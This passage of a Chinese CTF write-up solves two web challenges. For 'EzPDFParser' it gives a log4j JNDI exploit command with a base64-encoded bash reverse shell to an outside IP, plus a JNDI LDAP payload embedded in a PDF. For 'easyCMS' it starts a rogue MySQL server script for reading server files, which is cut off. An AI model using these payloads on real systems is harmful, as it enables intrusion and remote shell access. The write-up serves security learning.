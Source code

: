 0x01 Web
========

EzPDFParser
-----------

扔IDEA里

![image-20220426092718920](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-9e6ed5d7701eabfb700930d0db25af15b3be1b8a.png)

可以确定是log4j

`https://github.com/eelyvy/log4jshell-pdf`，跟着复现

`java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMTQuMjE1LjI1LjE2OC8yMzMzIDA+JjE=}|{base64,-d}|bash" -A "114.215.25.168"`

![image-20220426093858670](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-b73ddf99b45786e08094bf76515a058bf55a3d19.png)

先生成一个PDF，找到size这里

![image-20220426093128515](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-d1a55a2efa973b4d3368f97e3fe0b33f59711c72.png)

```php
${jndi:ldap:${sys:file.separator}${sys:file.separator}114.215.25.168:1389${sys:file.separator}i5sswg}
```

![image-20220426094015052](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-9122595d61f8325bc30fa0f5de28d4295415a25b.png)

上传后getshell

![image-20220426094126551](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-77141bb854b8859a59ee354e6d59b342076e3f0d.png)

easyCMS
-------

一个mysql文件读，起一个mysql服务，读取源码

```python
#!/usr/bin/env python
#coding: utf8

import socket
import asyncore
import asynchat
import struct
import random
import logging
import logging.handlers

PORT = 2333

log = logging.getLogger(__name__)

log.setLevel(logging.INFO)
tmp_format = logging.handlers.WatchedFileHandler('mysql.log', 'ab')
tmp_format.setFormatter(logging.Formatter("%(asctime)s:%(levelname)s:%(message)s"))
log.addHandler(
    tmp_format
)

filelist = (
    '/var/www/html/route/route.php',
)

#================================================
#=======No need to change after this lines=======
```